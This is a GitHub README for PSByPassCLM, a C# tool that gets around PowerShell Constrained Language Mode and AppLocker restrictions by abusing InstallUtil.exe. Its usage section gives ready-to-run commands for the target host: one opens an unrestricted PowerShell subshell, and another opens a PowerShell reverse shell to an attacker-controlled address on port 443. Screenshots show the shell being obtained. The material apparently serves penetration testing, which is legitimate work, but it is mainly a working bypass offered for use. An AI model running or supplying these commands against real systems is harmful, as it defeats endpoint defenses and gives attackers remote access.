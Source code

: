# PSByPassCLM
Bypass for PowerShell Constrained Language Mode

## Description and references 
This technique might come in handy wherever or whenever you're stuck in a low privilege PS console  
and PowerShell Version 2 engine is not available to perform a [PowerShell Downgrade Attacks](http://www.leeholmes.com/blog/2017/03/17/detecting-and-preventing-powershell-downgrade-attacks/).

What described above may happen in [modern] Windows OSes (like Windows 10, Windows Server 2016..),  
that nowdays are shipped out with AppLocker and PowerShell Version 5 (v5).

With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools.  
Imho, not beeing able to use core language functionalities (eg, load script in memory and so on..) it's a such a pain.

"PowerShell v5 detects when AppLocker Allow mode is in effect and sets the PowerShell language to Constrained Mode,  
severely limiting the attack surface on the system.  
With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools." [[Source]](https://adsecurity.org/?p=2604)
 
## Build the binary
The project is written in C#. All the source (few lines of codes though) is committed: .csproj, .sln ...  
You should be able to easily compile and build the binary with the default configuration Debug/X64.

## Usage
Well, nothing new here as we're going to use the old and well-known trick of "InstallUtil.exe" to bypass execution of exe.
Once you've compiled the binary, issue the below command on the target host.  
Besides, your binary doesn't have to be an "exe" as InstallUtil.exe parse any file type (.txt, .bin....)

This one opens a subshell in the current console
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

This one tries to open a PS reverse shell (I've bound it into the source as a life saver :-) ..)
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

## Testing

![Screenshot](img/clm01.JPG?raw=true)

![Screenshot](img/clm02.JPG?raw=true)

PS in process in current console
![Screenshot](img/clm03.JPG?raw=true)

Teying to open PS reverse shell
![Screenshot](img/clm04.JPG?raw=true)

Got the shell
![Screenshot](img/clm05.JPG?raw=true)


## Useful Links
https://blogs.msdn.microsoft.com/powershell/2017/11/02/powershell-constrained-language-mode/
https://adsecurity.org/?p=2604
https://pentestn00b.wordpress.com/2017/03/20/simple-bypass-for-powershell-constrained-language-mode/
https://blog.stealthbits.com/how-attackers-are-bypassing-powershell-protections/
https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/


## Author
This code is developed by Chris D. [@padovah4ck](https://twitter.com/padovah4ck) // [LinkedIn](https://www.linkedin.com/in/chrisdanieli/) //   
Use it at your own risk. No responsability on my side
